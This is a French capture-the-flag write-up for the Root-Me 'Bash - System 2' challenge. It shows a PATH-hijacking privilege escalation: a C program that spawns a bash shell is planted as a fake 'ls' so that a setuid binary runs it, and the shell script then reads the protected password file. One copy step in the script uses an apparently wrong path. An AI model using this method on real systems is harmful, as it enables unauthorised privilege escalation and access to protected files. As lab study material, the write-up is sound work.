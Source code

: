 # Bash - System 2

1. Code à éxécuter

```
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
 
int main(){
    setreuid(geteuid(), geteuid());
    system("ls -lA /challenge/app-script/ch12/.passwd");
    return 0;
}
```

## Exploitation du code différentes étapes

1. Sur ma machine Linux je décide de crée un exploit qui ouvre un bash en root quand le binaire de mon programme est éxécuté.<br> 

```
nano privesc.c 

int main(){
    setregid(0, 0);
    setreuid(0, 0);

    printf("\nGID :%d", getgid());
    printf(" UID : %d\n", getuid());

    system("/bin/bash");

    printf("\nGID :%d", getgid());
    printf(" UID : %d\n", getuid());

    return 0;
}
```
2. J'envoie le fichier privesc.c sur la machine à rooter

```
scp privesc.c app-script-ch12@challenge02.root-me.org:/tmp
```

3. Préparation d'un script bash qui automatise l'exploitation

```
nano /tmp/flag.sh

#!/bin/bash 
gcc privesc.c -o privesc
mkdir /tmp/tmp1
cd /tmp/tmp1
touch ls
cd ..
cp privesc /tmp1/ls
cd /challenge/app-script/ch12
export PATH=/tmp/tmp1
./ch12
/bin/cat .passwd
```

## Execution

```
cd /tmp
chmod 777 flag.sh
./flag.sh
```